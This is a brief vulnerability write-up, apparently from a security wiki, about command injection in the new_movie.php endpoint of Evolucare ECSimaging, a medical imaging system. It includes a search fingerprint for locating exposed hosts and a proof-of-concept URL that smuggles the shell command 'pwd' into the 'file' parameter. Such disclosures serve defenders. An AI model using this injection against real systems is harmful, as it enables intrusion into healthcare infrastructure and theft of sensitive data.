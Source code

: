 # Evolucare Ecsimaging new_movie.php Remote command execution vulnerability

## Vulnerability Description

EVOLUCARE ECSimage is a medical management system used abroad. Research has found that there is a command injection vulnerability in its new_movie.php interface, and attackers can use this vulnerability to obtain system sensitive information, etc.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">EVOLUCARE Evolucare Ecsimaging version < 6.21.5</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">body="ECSimaging"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1645546475187-0a083488-f138-4905-97d4-d59cffe9d11c.png)

Verify POC

```javascript
/new_movie.php?studyUID=1&start=2&end=2&file=1;pwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1645546842924-a13f0f5d-da65-4933-b804-70f9a8ad1037.png)